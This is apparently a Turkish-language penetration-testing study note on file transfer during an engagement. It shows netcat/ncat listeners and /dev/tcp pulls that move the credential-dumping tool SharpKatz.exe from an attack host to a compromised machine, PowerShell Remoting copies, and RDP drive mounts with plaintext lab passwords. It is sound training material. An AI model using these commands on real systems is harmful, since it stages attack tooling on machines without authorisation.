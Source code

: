 ```yaml
---
icon: material/circle-small
---
```


# Miscellaneous File Transfer Methods

## Netcat

Netcat veya nc, TCP veya UDP kullanarak ağ bağlantılarından okumak ve bu bağlantılara yazmak için kullanılan bir bilgisayar ağı yardımcı programıdır.

Orijinal Netcat, 1995 yılında Hobbit tarafından piyasaya sürüldü. Bu aracın esnekliği ve kullanışlılığı, Nmap projesini, Netcat aracının daha modern ve gelişmiş bir versiyonu olan Ncat aracını geliştirmeye yöneltti.

### NetCat - Compromised Machine - Listening on Port 8000

```bash
nc -l -p 8000 > SharpKatz.exe
```

### Ncat - Compromised Machine - Listening on Port 8000

```bash
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

### NetCat - Attack Host - Sending File to Compromised machine

```bash
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

### Ncat - Attack Host - Sending File to Compromised machine

```bash
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

### Attack Host - Sending File as Input to Netcat

Ele geçirdiğimiz makinede gelen bağlantıları dinlemek yerine, dosya aktarım işlemini gerçekleştirmek için saldırı makinemizde bulunan bir porta bağlanabiliriz. Bu yöntem, gelen bağlantıları engelleyen bir güvenlik duvarının olduğu senaryolarda kullanışlıdır. Örneğin 443 numaralı portu dinleyelim ve ilgili dosyayı Netcat aracına girdi olarak gönderelim:

```bash
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### Compromised Machine Connect to Netcat to Receive the File

```bash
nc 192.168.49.128 443 > SharpKatz.exe
```

### Attack Host - Sending File as Input to Ncat

```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### Compromised Machine Connect to Ncat to Receive the File

```bash
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

Ele geçirdiğimiz makinede Netcat veya Ncat yoksa [/dev/tcp](https://tldp.org/LDP/abs/html/devref1.html) kullanılabilir:

```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## PowerShell Session File Transfer

Dosya aktarımı için HTTP, HTTPS veya SMB protokollerinin kullanılamadığı senaryolar ile karşılaşabiliriz. Böyle durumlarda, dosya aktarım işlemlerini gerçekleştirmek için [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) (WinRM) kullanılabilir.

PowerShell Remoting, PowerShell oturumlarını kullanarak uzaktaki bir bilgisayarda komut dosyaları veya komutlar yürütmemize olanak tanır. PowerShell uzaktan iletişimi etkinleştirmek HTTP ve HTTPS dinleyicileri oluşturur. Dinleyiciler, HTTP için 5985/tcp ve HTTPS için 5986/tcp portlarında çalışır.

Uzak bir bilgisayarda PowerShell Remoting oturumu oluşturmak için aşağıdakiler gereklidir:

* Yönetici erişimine sahip olmak.
* Remote Management Users grubunun üyesi olmak veya oturum yapılandırmasında PowerShell Remoting için açık izinlere sahip olmak.

Örneğin `DC01` bilgisayarından `DATABASE01` bilgisayarına (ve tersi) dosya aktarmamız gereksin. Bu örnekte `DC01` bilgisayarında Administrator olarak bir oturumumuz bulunmaktadır. Aynı zamanda kullanıcı `DATABASE01` üzerinde yönetici haklarına sahip ve PowerShell Remoting etkin durumdadır.

Aşağıda verilen komut, `DATABASE01` bilgisayarında 5985/tcp WinRM açık olup olmadığını (`DC01` bilgisayarından) test etmektedir:

```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

```text title="Output"
ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

Bu oturum halihazırda `DATABASE01` üzerinde gerekli ayrıcalıklara sahip olduğundan kimlik bilgilerinin belirtilmesine gerek yoktur. Aşağıdaki örnekte `DATABASE01` adlı uzak bilgisayarda bir oturum oluşturulmakta ve sonuçlar bir değişkende saklanmaktadır:

```powershell
$Session = New-PSSession -ComputerName DATABASE01
```

### Copy samplefile.txt from our Localhost to the DATABASE01 Session

```powershell
Copy-Item -Path "C:\samplefile.txt" -ToSession $Session -Destination "C:\Users\Administrator\Desktop\"
```

### Copy DATABASE.txt from DATABASE01 Session to our Localhost

```powershell
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination "C:\" -FromSession $Session
```

## RDP

Bir Linux klasörünü `#!bash rdesktop` aracını kullanarak bağlamak için aşağıdaki komut kullanılabilir:

```bash
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

Bir Linux klasörünü `#!bash xfreerdp` aracını kullanarak bağlamak için aşağıdaki komut kullanılabilir:

```bash
xfreerdp /dynamic-resolution /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

Dizine erişmek için tsclient (Terminal Server Client) yoluna bağlanabiliriz:

![](../assets/images/tsclient.jpg)

Alternatif olarak [mstsc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc) uzak masaüstü istemcisi kullanılabilir:

![](../assets/images/rdp.png)

Sürücüyü seçtikten sonra uzak oturumda bu sürücüyle etkileşime geçebiliriz. Bu sürücü, hedef bilgisayarda oturum açan diğer kullanıcılar tarafından (RDP oturumunu ele geçirmeyi başarsalar bile) erişilemez.

## Practice Makes Perfect

Bu modülde öğrenilen bilgiler aşağıdaki modüllerde de kullanışlı olacaktır:

* Active Directory Enumeration and Attacks (Skills Assessments 1 & 2)
* Pivoting, Tunnelling & Port Forwarding
* Attacking Enterprise Networks
* Shells & Payloads
